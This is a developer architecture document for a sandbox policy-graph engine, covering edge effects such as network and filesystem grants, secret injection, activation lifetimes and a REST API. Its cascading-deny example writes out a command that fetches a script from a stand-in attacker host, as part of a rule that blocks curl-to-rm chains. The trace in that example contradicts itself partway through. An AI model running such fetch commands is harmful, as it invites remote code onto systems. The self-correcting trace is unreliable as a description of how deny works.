








# Policy Graph — Evaluation Engine

Policy evaluation engine with conditional graph-based chaining.

Policies are flat rules (allow/deny patterns). The policy graph adds conditional relationships between them — when one fires, its edges can grant network/FS access, inject secrets, activate dormant policies, or deny.

## Architecture Overview



**Entry point**: `evaluatePolicyCheck()` in [`routes/rpc.ts`](../routes/rpc.ts) (line 389).

## File Structure



Source files:

| File | Responsibility |
|------|---------------|
| [`graph-evaluator.ts`](./graph-evaluator.ts) | Evaluates outgoing edges when a policy matches. Produces `GraphEffects`. |
| [`sandbox-helpers.ts`](./sandbox-helpers.ts) | Extracts concrete FS paths from policies for SBPL sandbox profiles. |
| [`url-matcher.ts`](./url-matcher.ts) | URL/command/scope pattern matching shared by RPC and proxy. |
| [`errors.ts`](./errors.ts) | `GraphEvaluationError` with contextual `nodeId`/`edgeId`. |

## Graph Model

Policies are nodes. Directed edges define conditional relationships: "When source policy fires → apply effect on target."



After `gog getmail` fires and its edges are evaluated:



## Edge Effects Reference

| Effect | Description | `grantPatterns` | `secretName` |
|--------|-------------|:---------------:|:------------:|
| `grant_network` | Whitelist URL patterns in sandbox proxy | URL globs | — |
| `grant_fs` | Add read/write paths to sandbox | `r:`, `w:` prefixed paths | — |
| `inject_secret` | Inject vault secret as env var | — | Secret name |
| `activate` | Wake a dormant policy for evaluation | — | — |
| `deny` | Override allow → deny | — | — |
| `revoke` | Consume existing activations on target | — | — |

### grant_network

Adds URL patterns to the sandbox proxy allowlist. Forces proxy mode regardless of command type.

```
Edge: { effect: "grant_network", grantPatterns: ["api.openai.com", "*.gogl.com"] }
→ effects.grantedNetworkPatterns = ["api.openai.com", "*.gogl.com"]
→ SandboxConfig: networkAllowed=true, proxy with synthetic allow policy (priority 999)
```

### grant_fs

Adds filesystem paths to sandbox read/write allowlists. Paths are prefixed with `r:` (read), `w:` (write), or plain (defaults to read).

```
Edge: { effect: "grant_fs", grantPatterns: ["r:/data/input", "w:/data/output", "/data/shared"] }
→ effects.grantedFsPaths = { read: ["/data/input", "/data/shared"], write: ["/data/output"] }
→ SandboxConfig: allowedReadPaths += read, allowedWritePaths += write
```

### inject_secret

Resolves a named secret from the scoped vault and injects it as an environment variable. Gracefully skips if the secret is not found or the vault is locked.

```
Edge: { effect: "inject_secret", secretName: "JIRA_TOKEN" }
→ effects.injectedSecrets = { "JIRA_TOKEN": "<resolved-value>" }
→ SandboxConfig: envInjection["JIRA_TOKEN"] = "<resolved-value>"
```

### activate

Creates an activation record for a dormant policy's node. The dormant policy becomes eligible for evaluation on subsequent policy checks.

### deny

Sets a deny override on the `GraphEffects`. When `effects.denied` is true, `evaluatePolicyCheck` returns denied regardless of the original policy action.

### revoke

Consumes all active activations on the target node's incoming edges, effectively deactivating a previously activated dormant policy.

## Edge Lifetimes



| Lifetime | Scope | Activation Record | Cleanup |
|----------|-------|:-----------------:|---------|
| `persistent` | Always active | None needed | Never expires |
| `session` | Daemon lifetime | Created on fire | `expireBySession()` on restart |
| `process` | Single PID | Created with `processId` | `expireByProcess(pid)` on exit |
| `once` | Single use | Created on fire | Consumed immediately after application |

## Dormant Policy Activation



**Key insight**: No recursive traversal within a single `evaluateGraphEffects` call. Cascading happens across separate evaluation calls via the activation model.

## Sandbox Integration

Graph effects merge into `SandboxConfig` during `buildSandboxConfig()`:



When `grantedNetworkPatterns` is non-empty:
1. Network mode forced to `proxy` (regardless of `determineNetworkAccess()`)
2. A per-run proxy is acquired from the proxy pool
3. A synthetic `PolicyConfig` with `priority: 999` and `action: 'allow'` is prepended to the proxy's policy list
4. Proxy env vars (`HTTP_PROXY`, `HTTPS_PROXY`, `ALL_PROXY`) injected into sandbox

## REST API Reference

All endpoints under `/api/policies/graph/*`. Auth handled by parent `/api` hook. Profile scoping from `request.shieldContext.profileId`.

Source: [`routes/policy-graph.ts`](../routes/policy-graph.ts)

### Graph

| Method | Path | Description | Response |
|--------|------|-------------|----------|
| `GET` | `/policies/graph` | Complete graph (nodes + edges + activations) | `{ data: PolicyGraph }` |

### Nodes

| Method | Path | Description | Response |
|--------|------|-------------|----------|
| `GET` | `/policies/graph/nodes` | List all nodes | `{ data: PolicyNode[] }` |
| `POST` | `/policies/graph/nodes` | Create node | `{ data: PolicyNode }` (201) |
| `GET` | `/policies/graph/nodes/:id` | Get node by ID | `{ data: PolicyNode }` |
| `PATCH` | `/policies/graph/nodes/:id` | Update node | `{ data: PolicyNode }` |
| `DELETE` | `/policies/graph/nodes/:id` | Delete node (cascades edges) | `{ success: true }` |

**Create node input** (`CreatePolicyNodeInput`):
- `policyId` (string, required) — references an existing policy
- `profileId` (string, optional) — profile scope
- `dormant` (boolean, default: false) — starts inactive until activated by graph edge
- `metadata` (unknown, optional)

### Edges

| Method | Path | Description | Response |
|--------|------|-------------|----------|
| `GET` | `/policies/graph/edges` | List all edges | `{ data: PolicyEdge[] }` |
| `POST` | `/policies/graph/edges` | Create edge (acyclic validation) | `{ data: PolicyEdge }` (201) |
| `GET` | `/policies/graph/edges/:id` | Get edge by ID | `{ data: PolicyEdge }` |
| `PATCH` | `/policies/graph/edges/:id` | Update edge | `{ data: PolicyEdge }` |
| `DELETE` | `/policies/graph/edges/:id` | Delete edge | `{ success: true }` |

**Create edge input** (`CreatePolicyEdgeInput`):
- `sourceNodeId` / `targetNodeId` (UUID, required) — must not create a cycle
- `effect` (EdgeEffect, required) — one of: `activate`, `deny`, `inject_secret`, `grant_network`, `grant_fs`, `revoke`
- `lifetime` (EdgeLifetime, required) — one of: `session`, `process`, `once`, `persistent`
- `priority` (int, default: 0) — higher fires first
- `condition` (string, optional) — human-readable reason (used in deny messages)
- `secretName` (string, optional) — vault secret name for `inject_secret`
- `grantPatterns` (string[], optional) — URL globs for `grant_network`, prefixed paths for `grant_fs`
- `delayMs` (int, default: 0) — reserved for future use
- `enabled` (boolean, default: true)

Edge creation validates acyclicity via BFS from target → source. Returns 400 if a cycle would be created.

### Activations

| Method | Path | Description | Response |
|--------|------|-------------|----------|
| `GET` | `/policies/graph/activations` | List active activations (optional `?edgeId=` filter) | `{ data: EdgeActivation[] }` |
| `DELETE` | `/policies/graph/activations/:id` | Consume (deactivate) an activation | `{ success: true }` |

## Real-World Examples

### Example 1: Command Pipeline (`gog | openai | jira`)

**Setup — 3 nodes, 4 edges:**

| Node | Policy | Dormant |
|------|--------|:-------:|
| n-gog | `allow command gog:*` | No |
| n-openai | `allow command openai:*` | Yes |
| n-jira | `allow command jira:*` | Yes |

| Edge | Source → Target | Effect | Extra |
|------|----------------|--------|-------|
| e1 | n-gog → n-openai | `activate` | lifetime: session |
| e2 | n-gog → n-jira | `activate` | lifetime: session |
| e3 | n-gog → n-openai | `grant_network` | `["api.openai.com"]` |
| e4 | n-gog → n-jira | `inject_secret` | secretName: `JIRA_TOKEN` |

**Evaluation trace:**

1. `exec "gog getmail"` → matches `gog:*` (allow) → fires edges e1-e4
   - Activates openai + jira dormant policies
   - Sandbox: proxy with `api.openai.com` allowlisted
2. `exec "openai analyze"` → openai now activated → matches `openai:*` (allow)
   - Sandbox: proxy with `api.openai.com` from graph grants
3. `exec "jira create-ticket"` → jira now activated → matches `jira:*` (allow)
   - Sandbox: `JIRA_TOKEN` injected as env var
4. `exec "openai analyze"` without prior `gog` → openai still dormant → **denied**

### Example 2: Cascading Deny

**Setup:**

| Node | Policy | Dormant |
|------|--------|:-------:|
| n-curl | `allow command curl:*` | No |
| n-rm | `allow command rm:*` | No |

| Edge | Source → Target | Effect | Condition |
|------|----------------|--------|-----------|
| e1 | n-curl → n-rm | `deny` | "Prohibited: curl → rm chain" |

**Evaluation trace:**

1. `exec "curl https://evil.com/script.sh"` → matches `curl:*` (allow) → fires e1
   - `effects.denied = false` (deny targets the _next_ eval of rm, not curl itself)
   - Wait — deny is an immediate flag on the current effects object
2. Actually: the deny edge fires on the **source** policy match. When `curl:*` fires, the deny edge sets `effects.denied = true` on the current evaluation. The caller sees the deny override and returns denied.

The deny effect overrides the flat policy result at the point of evaluation.

### Example 3: Skill Network Access

An installed skill declares its API endpoints. The graph auto-grants network access scoped to that skill's execution.

| Node | Policy | Dormant |
|------|--------|:-------:|
| n-skill | `allow command skill-slug:*` (scope: `skill:my-skill`) | No |
| n-api | (virtual target for grant edges) | No |

| Edge | Source → Target | Effect | Extra |
|------|----------------|--------|-------|
| e1 | n-skill → n-api | `grant_network` | `["api.skill-vendor.com", "cdn.skill-vendor.com"]` |

When the skill executes, the matching policy fires, granting network access to exactly its declared endpoints — no other URLs pass through the proxy.

## Activation Lifecycle



**Daemon startup cleanup:**
1. `expireBySession()` — consumes all session-scoped activations
2. `pruneExpired()` — removes consumed/expired activation rows

## Fault Tolerance

Graph evaluation is **fail-open**: errors are logged, the edge is skipped, and the flat policy result is preserved. This ensures the graph layer never blocks a legitimate allow/deny decision.

- Each edge is wrapped in a try/catch inside `evaluateGraphEffects()`
- Secret injection gracefully handles locked vault (returns `undefined`, edge skipped)
- Graph load failure falls back to empty graph (all policies evaluated without graph effects)
- `GraphEvaluationError` includes contextual `nodeId` and `edgeId` for debugging

```
[graph-eval] Edge e-fail (inject_secret) failed: Vault exploded
→ Other edges still processed normally
→ Flat policy result preserved
```

## Profile Scoping

All graph operations are profile-scoped:

- **Policies**: `storage.for({ profileId }).policies.getEnabled()` returns UNION of global + profile-specific
- **Graph**: `storage.for({ profileId }).policyGraph.loadGraph()` returns scoped graph
- **REST API**: `request.shieldContext.profileId` extracted from auth context
- **RPC**: Profile resolved from broker token header (`X-Shield-Broker-Token`) or explicit profile ID header

## Types

All types defined in [`libs/shield-ipc/src/policy-graph/policy-graph.types.ts`](../../../shield-ipc/src/policy-graph/policy-graph.types.ts):

- `EdgeEffect` — `'activate' | 'deny' | 'inject_secret' | 'grant_network' | 'grant_fs' | 'revoke'`
- `EdgeLifetime` — `'session' | 'process' | 'once' | 'persistent'`
- `PolicyNode` — Graph node referencing a policy by ID
- `PolicyEdge` — Directed edge with effect, lifetime, priority, patterns
- `EdgeActivation` — Runtime activation state (edge fired → record created)
- `PolicyGraph` — Complete graph: `{ nodes, edges, activations }`

Zod schemas in [`policy-graph.schema.ts`](../../../shield-ipc/src/policy-graph/policy-graph.schema.ts). Storage layer docs in [`libs/storage/src/repositories/policy-graph/ARCHITECTURE.md`](../../../storage/src/repositories/policy-graph/ARCHITECTURE.md).
